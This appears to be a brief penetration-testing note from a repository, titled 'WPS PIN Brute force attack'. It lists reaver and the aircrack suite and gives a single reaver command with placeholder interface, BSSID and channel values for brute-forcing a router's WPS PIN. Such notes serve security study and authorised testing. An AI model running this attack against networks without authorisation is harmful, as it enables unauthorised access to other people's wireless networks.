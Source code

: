 # WPS PIN Brute force attack

## Tools: reaver, aircrack suite

## Requirements: Enumerate for potential targets. Check the enumeration chapter in this repo.

### Commands:

    reaver -i MONITOR_MODE_NIC -b BSSID -vv -c CHANNEL_NUM
